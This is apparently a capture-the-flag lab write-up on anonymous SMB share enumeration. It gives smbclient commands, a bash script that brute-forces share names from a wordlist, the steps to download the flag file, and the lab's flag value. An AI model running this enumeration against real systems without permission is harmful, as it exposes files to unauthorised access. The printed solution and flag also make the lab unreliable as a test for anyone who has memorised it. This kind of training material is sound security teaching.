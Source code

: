 # SMB Enumeration: Anonymous Access

## Challenge Title
SMB Share with Anonymous Access

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Description

The goal of this challenge is to identify an SMB share that allows **anonymous access**, enumerate its contents, and retrieve a hidden flag.

---

## Tools Used

- `smbclient`: to query SMB shares
- `bash`: to script brute-force enumeration of share names
- `nano` / `chmod`: to edit and execute the script

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Initial Enumeration with `smbclient`

```bash
smbclient -L //target.ine.local -N
```
![Step 1 - Initial SMB Error](./1.png)

### 🔹 Step 2: Create Enumeration Script `shares.sh`

```bash
nano shares.sh
```
Paste the following script:
```bash
#!/bin/bash

TARGET="target.ine.local"
WORDLIST="./shares.txt"

if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```
Make it executable:
```bash
chmod +x shares.sh
```
![Step 2 - Created Script](./2.png)

### 🔹 Step 3: Create the Wordlist `shares.txt`
```text
publicdata
communitydata
openstorage
freestorage
accessiblestorage
pubstorage
commonstorage
publicarchive
sharedarchive
commonarchive
pubarchive
opendocs
freedocs
communitydocs
accessibledocs
commondocs
pubdocs
publicfiles
openfiles
freefiles
sharedfiles
accessiblefiles
communityfiles
commonsfiles
pubfiles
openvault
freevault
accessiblevault
publicvault
commonvault
openlibrary                                                                                                                                                                                                                                
pubvault                                                                                                                                                                                                                                   
freelibrary                                                                                                                                                                                                                                
accessiblelibrary                                                                                                                                                                                                                          
worldstoragebin                                                                                                                                                                                                                            
universalstoragebin                                                                                                                                                                                                                        
sharedstoragebin                                                                                                                                                                                                                           
collectivestoragebin                                                                                                                                                                                                                       
mutualstoragebin                                                                                                                                                                                                                           
globalarchivebin
worldarchivebin
universalarchivebin
```

### 🔹 Step 4: Run the Script
```bash
./shares.sh
```
![Step 3 - Brute Forcing Shares](./3.png)

Output:
You’ll see lots of denied messages until:
```css
[+] Anonymous access allowed for: pubfiles
```
![Step 4 - Found Anonymous Access](./4.png)

That means pubfiles is accessible anonymously.

### 🔹 Step 5: Access the Share
```bash
smbclient //target.ine.local/pubfiles -N
```
List contents:
```bash
smb: \> ls
```
You’ll see something like:
flag1.txt

### 🔹 Step 6: Download the Flag
```bash
smb: \> get flag1.txt
```
Exit the session:
```bash
smb: \> exit
```
![Step 5 - Retrieved Flag](./5.png)

### 🔹 Step 7: View the Flag
```bash
cat flag1.txt
```
Final Output:
```bash
FLAG{56a55b23a464f5b8893fe22c6e3d611}
```
![Step 6 - Viewed Flag Content](./6.png)

## Conclusion
This lab highlights the importance of checking for misconfigured Samba shares that allow anonymous access. Attackers can exploit this to discover sensitive files like backup data, credentials, or flags.

## Files Included
- `shares.sh`: The script used to enumerate shares
- `shares.txt`: Wordlist of possible SMB share names
- Screenshots: 1.png → 6.png (steps of the challenge)
